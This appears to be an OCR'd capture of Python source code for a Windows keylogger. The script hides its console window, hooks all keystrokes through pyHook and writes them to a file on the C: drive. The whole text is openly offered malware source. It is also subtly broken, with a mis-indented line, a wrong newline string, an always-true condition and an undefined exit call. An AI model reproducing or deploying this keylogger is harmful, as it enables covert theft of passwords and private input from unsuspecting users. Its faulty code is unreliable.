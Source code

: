 # Python code for keylogger
# to be used in windows
import win32api
import win32console
import win32gui
import pythoncom, pyHook

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

def OnKeyboardEvent(event):
	if event.Ascii==5:
		_exit(1)
	if event.Ascii !=0 or 8:
	# open output.txt to read current keystrokes
		f = open('c:\output.txt', 'r+')
		buffer = f.read()
		f.close()
	# open output.txt to write current + new keystrokes
		f = open('c:\output.txt', 'w')
		keylogs = chr(event.Ascii)
		if event.Ascii == 13:
		keylogs = '/n'
		buffer += keylogs
		f.write(buffer)
		f.close()
# create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
# set the hook
hm.HookKeyboard()
# wait forever
pythoncom.PumpMessages()
